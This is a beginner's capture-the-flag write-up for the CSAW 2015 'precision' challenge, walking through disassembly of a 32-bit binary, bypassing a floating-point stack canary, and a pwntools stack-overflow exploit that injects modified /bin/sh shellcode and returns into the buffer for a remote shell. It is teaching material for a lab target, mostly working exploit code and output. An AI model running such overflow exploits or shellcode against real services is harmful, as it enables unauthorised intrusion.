



## CSAW CTF 2015
# Exploit 100 : precision

I've been wanting to learn how to do reversing or exploit challenges in CTFs. This looks like a good place to start. After reading some of the other challenge writeups, they seem to target a more experienced audience and did not really explain alot of things for a beginner.

So, I'll try to give a step by step guide on how I approached the problem after reading some of these writeups. Feel free to ask me if any parts seems unclear.

You are provided with a elf binary and asked to exploit it

> precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped

# Disassembly

Since this is a small binary, lets run objdump to disassemble it. The interesting bits are in the main function. Below is the asm code with comments.

> objdump -M intel -d precision

```
0804851d <main>:
 804851d:	55                   	push   ebp
 804851e:	89 e5                	mov    ebp,esp
 8048520:	83 e4 f0             	and    esp,0xfffffff0
 8048523:	81 ec a0 00 00 00    	sub    esp,0xa0						# buffer size 0xa0
 8048529:	dd 05 90 86 04 08    	fld    QWORD PTR ds:0x8048690
 804852f:	dd 9c 24 98 00 00 00 	fstp   QWORD PTR [esp+0x98]			# place the "canary" onto the stack
 8048536:	a1 40 a0 04 08       	mov    eax,ds:0x804a040				# stdout
 804853b:	c7 44 24 0c 00 00 00 	mov    DWORD PTR [esp+0xc],0x0
 8048542:	00 
 8048543:	c7 44 24 08 02 00 00 	mov    DWORD PTR [esp+0x8],0x2
 804854a:	00 
 804854b:	c7 44 24 04 00 00 00 	mov    DWORD PTR [esp+0x4],0x0
 8048552:	00 
 8048553:	89 04 24             	mov    DWORD PTR [esp],eax
 8048556:	e8 a5 fe ff ff       	call   8048400 <setvbuf@plt>
 804855b:	8d 44 24 18          	lea    eax,[esp+0x18]
 804855f:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048563:	c7 04 24 78 86 04 08 	mov    DWORD PTR [esp],0x8048678
 804856a:	e8 41 fe ff ff       	call   80483b0 <printf@plt>
 804856f:	8d 44 24 18          	lea    eax,[esp+0x18]
 8048573:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax		# &buf
 8048577:	c7 04 24 82 86 04 08 	mov    DWORD PTR [esp],0x8048682	# "%s"
 804857e:	e8 8d fe ff ff       	call   8048410 <__isoc99_scanf@plt>	# scanf("%s", &buf)
 8048583:	dd 84 24 98 00 00 00 	fld    QWORD PTR [esp+0x98]
 804858a:	dd 05 90 86 04 08    	fld    QWORD PTR ds:0x8048690		# pushes 2 floating point numbers onto fpu stack
 8048590:	df e9                	fucomip st,st(1)					# compare the 2 values
 8048592:	dd d8                	fstp   st(0)						# pop first value to nowhere
 8048594:	7a 13                	jp     80485a9 <main+0x8c>			# jmp if PF = 1, PF set to 1 if exception thrown
 8048596:	dd 84 24 98 00 00 00 	fld    QWORD PTR [esp+0x98]
 804859d:	dd 05 90 86 04 08    	fld    QWORD PTR ds:0x8048690
 80485a3:	df e9                	fucomip st,st(1)					# compare the 2 values again
 80485a5:	dd d8                	fstp   st(0)						# pop first value to nowhere
 80485a7:	74 18                	je     80485c1 <main+0xa4>			# jmp to SUCCESS if 2 values are equal
 80485a9:	c7 04 24 85 86 04 08 	mov    DWORD PTR [esp],0x8048685	# FAILURE STATE
 80485b0:	e8 0b fe ff ff       	call   80483c0 <puts@plt>
 80485b5:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80485bc:	e8 1f fe ff ff       	call   80483e0 <exit@plt>			# print error and exit
 80485c1:	a1 30 a0 04 08       	mov    eax,ds:0x804a030				# SUCCESS STATE
 80485c6:	8d 54 24 18          	lea    edx,[esp+0x18]
 80485ca:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485ce:	89 04 24             	mov    DWORD PTR [esp],eax
 80485d1:	e8 da fd ff ff       	call   80483b0 <printf@plt>
 80485d6:	c9                   	leave  
 80485d7:	c3                   	ret    								# unprotected ret into stack 
 80485d8:	66 90                	xchg   ax,ax
 80485da:	66 90                	xchg   ax,ax
 80485dc:	66 90                	xchg   ax,ax
 80485de:	66 90                	xchg   ax,ax
```

A floating point value (because of the fld and fstp instructions) is loaded from 0x08048690 into $esp+0x98. This value serves as a "canary". The input received from the scanf call is written directly onto the stack. After the scanf call, 2 comparions are done against the value in $esp+0x98 and the canary value to see if it changed. 

The first comparison checks if PF (parity flag) is set to 1. The PF is set to 1 if the fucomip instruction threw an "invalid argument" exception. If set, execution flow goes to FAILURE state. The second comparision checks if the 2 values are equal. If the 2 values are equal, execution flow goes to SUCCESS state.

Basically, the canary value has to remain unchanged when the input is written onto the stack

# Debugging

Let's setup a local server to debug the application

```sh
#!/bin/sh
while true; do nc -l -p 4444 -e ./precision ; done
```

Attach a gdb to a running connection (run each code block in a different terminal)

```
nc localhost 4444
```

```
ps ax | grep precision
gdb ./precision -p [the process id of the precision process]
```

The canary value is stored at 0x08048690, lets examine it

```
(gdb) x/8wx 0x8048690
0x8048690:	0x475a31a5	0x40501555	0x3b031b01	0x00000028
0x80486a0:	0x00000004	0xfffffd08	0x00000044	0xfffffe85
```

The canary value is a QWORD, thus it is 8 bytes which is "0x475a31a5	0x40501555". Also when you initiate the connection to the program, it tells you the address of the buffer. This will allow us to find the offset of the canary from the start of the buffer

```
Buff: 0xfffc1e88

(gdb) find  0xfffc1e88, +0xa0, (int) 0x475a31a5
0xfffc1f08
1 pattern found.
(gdb) p (int) 0xfffc1f08 - (int) 0xfffc1e88
$2 = 128
```

The canary is at 128 bytes from the start of the buffer. 

# Exploitation

Lets start building our exploit script. I used python with pwntools installed

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
conn = remote('localhost', 4444)
msg = conn.recvline()
bufaddr = int(msg[msg.find(":")+2:], 16)

payload = "A"*(128)
payload += pack(0x475a31a5) + pack(0x40501555)
conn.sendline(payload)
print conn.recvline()
```

The above script succesfully bypasses the canary check, and the program prints out the buffer



The next step is to determine the offset to the return address. After some trial and error, it's found to be 12 bytes after the canary. After which is to generate the shellcode. pwntools actually comes with a nifty shellcode generator (shellcraft module). I used a shellcode which will pop a shell.

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
conn = remote('localhost', 4444)
msg = conn.recvline()
bufaddr = int(msg[msg.find(":")+2:], 16)

shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode
payload += "A"*(128 - len(shellcode))
payload += pack(0x475a31a5) + pack(0x40501555)
payload += "B"*(12)
payload += pack(bufaddr)
conn.sendline(payload)
print conn.recvline()
```


However, it does not seem to work. Our input seems to be truncated. Turns out the "__isoc99_scanf" function treats 0xb as a string terminator. Let's take a closer look at the generated shellcode

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
print shellcraft.i386.linux.sh()
```
will print out (note the "push 0xb" instruction )
```asm
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    mov ebx, esp
    xor ecx, ecx
    push 0xb
    pop eax
    cdq /* Set edx to 0, eax is known to be positive */
    int 0x80
```

Let's modify the shellcode to remove the "0xb" byte and save it into a file ([shellc.asm](shellc.asm))

```asm
	# shellc.asm
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    mov ebx, esp
    xor ecx, ecx
    xor eax, eax
    mov al, 0x4
    add al, 0x7
    cdq /* Set edx to 0, eax is known to be positive */
    int 0x80
```

Now the exploit script ([soln.py](soln.py)) looks like this. (the interactive() function to gets a interactive shell after the exploit is successful)

```python
# soln.py
from pwn import *
context.arch = 'i386'
context.os = 'linux'

conn = remote('localhost', 4444)
#conn = remote('54.210.15.77', 1259)
msg = conn.recvline()
bufaddr = int(msg[msg.find(":")+2:], 16)

#print shellcraft.i386.linux.sh()
scfile = open("shellc.asm", "r")
sc = scfile.read()
shellcode = asm(sc)

payload = shellcode
payload += "A"*(128 - len(shellcode))
payload += pack(0x475a31a5) + pack(0x40501555)
payload += "AAAA"+"BBBB"+"CCCC"
payload += pack(bufaddr)
conn.sendline(payload)
conn.interactive()
```

The script finally works!! Now run it against the challenge server and get the flag



Flag is **flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}**

References:

http://www.securifera.com/blog/2015/09/22/csaw-2015-precision/

https://www.whitehatters.academy/csaw2015-quals-precision-exploit-100/